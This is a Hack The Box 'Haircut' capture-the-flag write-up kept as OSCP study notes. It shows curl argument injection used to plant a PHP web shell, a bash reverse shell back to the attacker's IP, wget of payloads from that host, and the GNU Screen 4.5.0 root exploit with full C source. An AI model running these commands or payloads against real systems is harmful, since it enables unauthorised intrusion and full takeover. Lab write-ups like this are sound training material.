

---
metaLinks:
  alternates:
    - >-
      https://app.gitbook.com/s/qDX4NWkPelZggTpGCfyF/course-review/cyber-security-courses-journey/oscp-journey/ctf/hack-the-box/linux-boxes/haircut-medium
---

# ✅ Haircut (Medium)

## Lesson Learn



## Report-Penetration

**Vulnerable Exploit:** Curl Command Injection

**System Vulnerable:** 10.10.10.24

**Vulnerability Explanation:** By exposed upload directory and improper validated user input which could allow attacker to upload malicious file and gain access on the system.&#x20;

**Privilege Escalation Vulnerability:** screen version 4.5.0 vulnerable to Local Privilege Escalation

**Vulnerability Fix:** Ensure that unauthorized user could not access to Upload Folder and validate user input extension.

**Severity:** High

**Step to Compromise the Host:**&#x20;

## Reconnaissance

```
└─$ nmap -p- -sC -sV -T4 10.10.10.24 -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-02 21:35 EST
Nmap scan report for 10.10.10.24
Host is up (0.042s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

### Port  80 nginx/1.10.0

A simple webpage and source code nothing is interesting.

.png>)

Run gobuster to check hidden directory.

```
└─$ gobuster dir -u http://10.10.10.24 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x.php           
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.24
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2021/12/02 21:50:56 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 194] [--> http://10.10.10.24/uploads/]
/exposed.php          (Status: 200) [Size: 446] 
```

.png>)

Let start our http server on kali machine and replace localhost with our IP address.

.png>)

.png>)

Intercept burp proxy, the argument maybe,

```
formurl = system(./curl $url)
```

we can inject the payload in curl,

```
formurl = system(./curl -o /uploads/test.html $url)
```

Let create a simple file test.html and use curl to upload the file

```
formurl=-o /var/www/html/uploads/test http://10.10.14.7/test.html&submit=Go	
```

.png>)

Let go to /uploads to verify, if we have upload successful.

.png>)

Confirms that we can upload and execute the file.

## Exploitation

Let upload command execute shell.php&#x20;

```
<?php system($_REQUST['cmd']; ?>
```

Let upload our file to the application

```
formurl=-o+/var/www/html/uploads/shell.php+http://10.10.14.7/shell.php&submit=Go	
```

Confirms we can perform command execution.

.png>)

we can replace command with bash reverse shell and start netcat listener on port 4444

```
nc -vlp 4444
```

```
GET /uploads/shell.php?cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.7/4444 0>&1' HTTP/1.1
```

.png>)

## Privilege Escalation

Find misconfigure on SUID

```
www-data@haircut:/home/maria$ find / -type f -perm -4000 -ls 2>/dev/null
    53377    140 -rwsr-xr-x   1 root     root       142032 Jan 28  2017 /bin/ntfs-3g
    52805     44 -rwsr-xr-x   1 root     root        44680 May  7  2014 /bin/ping6
    53367     32 -rwsr-xr-x   1 root     root        30800 Jul 12  2016 /bin/fusermount
    52955     40 -rwsr-xr-x   1 root     root        40128 May  4  2017 /bin/su
    52791     40 -rwsr-xr-x   1 root     root        40152 Dec 16  2016 /bin/mount
    52804     44 -rwsr-xr-x   1 root     root        44168 May  7  2014 /bin/ping
    52839     28 -rwsr-xr-x   1 root     root        27608 Dec 16  2016 /bin/umount
   262400    136 -rwsr-xr-x   1 root     root       136808 Jan 20  2017 /usr/bin/sudo
   273351     24 -rwsr-xr-x   1 root     root        23376 Jan 18  2016 /usr/bin/pkexec
   266457     36 -rwsr-xr-x   1 root     root        32944 May  4  2017 /usr/bin/newuidmap
   266260     40 -rwsr-xr-x   1 root     root        39904 May  4  2017 /usr/bin/newgrp
   266765     36 -rwsr-xr-x   1 root     root        32944 May  4  2017 /usr/bin/newgidmap
   267324     76 -rwsr-xr-x   1 root     root        75304 May  4  2017 /usr/bin/gpasswd
   273121     52 -rwsr-sr-x   1 daemon   daemon      51464 Jan 14  2016 /usr/bin/at
   267325     56 -rwsr-xr-x   1 root     root        54256 May  4  2017 /usr/bin/passwd
   268146   1552 -rwsr-xr-x   1 root     root      1588648 May 19  2017 /usr/bin/screen-4.5.0
   267327     40 -rwsr-xr-x   1 root     root        40432 May  4  2017 /usr/bin/chsh
   267323     52 -rwsr-xr-x   1 root     root        49584 May  4  2017 /usr/bin/chfn
   265697     40 -rwsr-xr-x   1 root     root        38984 Mar  7  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
   272188     44 -rwsr-xr--   1 root     messagebus    42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    28123    204 -rwsr-xr-x   1 root     root         208680 Apr 29  2017 /usr/lib/snapd/snap-confine
   265195     12 -rwsr-xr-x   1 root     root          10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
   267345    420 -rwsr-xr-x   1 root     root         428240 Mar 16  2017 /usr/lib/openssh/ssh-keysign
    26270     16 -rwsr-xr-x   1 root     root          14864 Jan 18  2016 /usr/lib/policykit-1/polkit-agent-helper-1
```

### **/usr/bin/screen-4.5.0**

```
└─$ searchsploit screen | grep 4.5.0
GNU Screen 4.5.0 - Local Privilege Escalation                                                                                                               | linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC)                                                                                                         | linux/local/41152.txt
```

```
└─$ searchsploit -m 41154.sh             
  Exploit: GNU Screen 4.5.0 - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/41154
     Path: /usr/share/exploitdb/exploits/linux/local/41154.sh
File Type: Bourne-Again shell script, ASCII text executable, with CRLF line terminators

Copied to: /home/pwned/Desktop/HTB/haircut/41154.sh
```

Let create those two files and compile on our local machine to avoid error.

```
└─$ cat libhax.c 
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

```
└─$ cat rootshell.c                         
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```

Let Compile those 2 files.

```
└─$ gcc -fPIC -shared -ldl -o libhax.so libhax.c
libhax.c: In function ‘dropshell’:
libhax.c:7:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
    7 |     chmod("/tmp/rootshell", 04755);
      |     ^~~~~

└─$ gcc -o rootshell rootshell.c 
rootshell.c: In function ‘main’:
rootshell.c:3:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    3 |     setuid(0);
      |     ^~~~~~
rootshell.c:4:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    4 |     setgid(0);
      |     ^~~~~~
rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’ [-Wimplicit-function-declaration]
    5 |     seteuid(0);
      |     ^~~~~~~
rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
    6 |     setegid(0);
      |     ^~~~~~~
rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
    7 |     execvp("/bin/sh", NULL, NULL);
      |     ^~~~~~
rootshell.c:7:5: warning: too many arguments to built-in function ‘execvp’ expecting 2 [-Wbuiltin-declaration-mismatch]                                                                                                         
```

```
└─$ ls -l 
total 52
-rwxr-xr-x 1 pwned pwned  1192 Dec  2 22:34 41154.sh
-rw-r--r-- 1 pwned pwned   252 Dec  2 22:38 libhax.c
-rwxr-xr-x 1 pwned pwned 15552 Dec  2 22:40 libhax.so
-rwxr-xr-x 1 pwned pwned 16256 Dec  2 22:40 rootshell
-rw-r--r-- 1 pwned pwned   134 Dec  2 22:39 rootshell.c
```

Let copy the both compile file to our victim machine

```
www-data@haircut:/tmp$ wget 10.10.14.7/libhax.so
www-data@haircut:/tmp$ wget 10.10.14.7/rootshell
```

Let change the directory to /etc

```
www-data@haircut:/tmp$ cd
www-data@haircut:/etc$ umask 000
www-data@haircut:/etc$ screen-4.5.0 -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
www-data@haircut:/etc$ cat ld.so.preload    
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!

 www-data@haircut:/etc$ screen-4.5.0 -ls
No Sockets found in /tmp/screens/S-www-data. 
```

Check on /tmp

```
www-data@haircut:/tmp$ ls -l
total 44
-rw-r--r-- 1 www-data www-data 15552 Dec  3 04:40 libhax.so
-rwsr-xr-x 1 root     root     16256 Dec  3 04:40 rootshell
drwxr-xr-x 3 root     www-data  4096 Dec  3 04:49 screens
drwx------ 3 root     root      4096 Dec  3 03:35 systemd-private-9f3a568c237b4e50954129a9c4441868-systemd-timesyncd.service-0MUktY
drwx------ 2 root     root      4096 Dec  3 03:36 vmware-root

www-data@haircut:/tmp$ ./rootshell 
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```
